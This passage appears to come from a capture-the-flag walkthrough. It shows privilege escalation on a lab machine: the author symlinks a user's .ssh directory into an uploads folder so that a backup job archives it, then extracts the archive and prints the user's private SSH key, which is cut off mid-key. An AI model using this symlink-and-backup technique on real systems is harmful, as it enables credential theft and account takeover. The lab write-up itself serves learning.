 We have full permission for ‘upload’ directory - which is inside dashboard. As the ‘yml’ configuration says, it is copying even linked files/directory so we link ‘luis’ SSH keys, and when it gets copied and archived we can able to retrieve those keys.

```other
tomcat@seal:/$ ln -s /home/luis/.ssh/ /var/lib/tomcat9/webapps/ROOT/admin/dashboard/uploads/

tomcat@seal:/$ cd /opt/backups/archives/

tomcat@seal:/opt/backups/archives$ ls
backup-2021-07-14-07:25:32.gz

tomcat@seal:/opt/backups/archives$ date
Wed 14 Jul 2021 07:26:10 AM UTC

tomcat@seal:/opt/backups/archives$ ls
backup-2021-07-14-07:25:32.gz  backup-2021-07-14-07:26:32.gz

tomcat@seal:/opt/backups/archives$ cp backup-2021-07-14-07\:26\:32.gz /tmp/backup.gz
```

We need to link the SSH directory to uploads, then we check the archived file and copy it to /tmp location with different name.

Now we need to extract the file, switch to /tmp directory.

```other
tomcat@seal:/tmp$ gzip -d backup.gz

tomcat@seal:/tmp$ file backup
backup: POSIX tar archive

tomcat@seal:/tmp$ tar -xf backup
```

We extracted the compressed file, now retrieve SSH private keys.

```shell
tomcat@seal:/tmp$ cat dashboard/uploads/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAs3kISCeddKacCQhVcpTTVcLxM9q2iQKzi9hsnlEt0Z7kchZrSZsG
DkID79g/4XrnoKXm2ud0gmZxdVJUAQ33Kg3Nk6czDI0wevr/YfBpCkXm5rsnfo5zjEuVGo
MTJhNZ8iOu7sCDZZA6sX48OFtuF6zuUgFqzHrdHrR4+YFawgP8OgJ9NWkapmmtkkxcEbF4
n1+v/l+74kEmti7jTiTSQgPr/ToTdvQtw12+YafVtEkB/8ipEnAIoD/B6JOOd4pPTNgX8R
MPWH93mStrqblnMOWJto9YpLxhM43v9I6EUje8gp/EcSrvHDBezEEMzZS+IbcP+hnw5ela
duLmtdTSMPTCWkpI9hXHNU9njcD+TRR/A90VHqdqLlaJkgC9zpRXB2096DVxFYdOLcjgeN
3rcnCAEhQ75VsEHXE/NHgO8zjD2o3cnAOzsMyQrqNXtPa+qHjVDch/T1TjSlCWxAFHy/OI
PxBupE/kbEoy1+dJHuR+gEp6yMlfqFyEVhUbDqyhAAAFgOAxrtXgMa7VAAAAB3NzaC1yc2
EAAAGBALN5CEgnnXSmnAkIVXKU01XC8TPatokCs4vYbJ5RLdGe5HIWa0mbBg5CA+/YP+F6
56Cl5trndIJmcXVSVAEN9yoNzZOnMwyNMHr6/2HwaQpF5ua7J36Oc4xLlRqDEyYTWfIjru
7Ag2WQOrF+PDhbbhes7lIBasx63R60ePmBWsID/DoCfTVpGqZprZJMXBGxeJ9fr/5fu+JB
JrYu404k0kID6/06E3b0LcNdvmGn1bRJAf/IqRJwCKA/weiTjneKT0zYF/ETD1h/d5kra6
m5ZzDlibaPWKS8YTON7/SOhFI3vIKfxHEq7xwwXsxBDM2UviG3D/oZ8OXpWnbi5rXU0jD0
wlpKSPYVxzVPZ43A/k0UfwPdFR6nai5WiZIAvc6UVwdtPeg1cRWHTi3I4Hjd63JwgBIUO+
VbBB1xPzR4DvM4w9qN3JwDs7DMkK6jV7T2vqh41Q3If09U40pQlsQBR8vziD8QbqRP5GxK
MtfnSR7kfoBKesjJX6hchFYVGw6soQAAAAMBAAEAAAGAJuAsvxR1svL0EbDQcYVzUbxsaw
MRTxRauAwlWxXSivmUGnJowwTlhukd2TJKhBkPW2kUXI6OWkC+it9Oevv/cgiTY0xwbmOX
AMylzR06Y5NItOoNYAiTVux4W8nQuAqxDRZVqjnhPHrFe/UQLlT/v/khlnngHHLwutn06n
bupeAfHqGzZYJi13FEu8/2kY6TxlH/2WX7WMMsE4KMkjy/nrUixTNzS+0QjKUdvCGS1P6L
hFB+7xN9itjEtBBiZ9p5feXwBn6aqIgSFyQJlU4e2CUFUd5PrkiHLf8mXjJJGMHbHne2ru
p0OXVqjxAW3qifK3UEp0bCInJS7UJ7tR9VI52QzQ/RfGJ+CshtqBeEioaLfPi9CxZ6LN4S
1zriasJdAzB3Hbu4NVVOc/xkH9mTJQ3kf5RGScCYablLjUCOq05aPVqhaW6tyDaf8ob85q
/s+CYaOrbi1YhxhOM8o5MvNzsrS8eIk1hTOf0msKEJ5mWo+RfhhCj9FTFSqyK79hQBAAAA
wQCfhc5si+UU+SHfQBg9lm8d1YAfnXDP5X1wjz+GFw15lGbg1x4YBgIz0A8PijpXeVthz2
ib+73vdNZgUD9t2B0TiwogMs2UlxuTguWivb9JxAZdbzr8Ro1XBCU6wtzQb4e22licifaa
```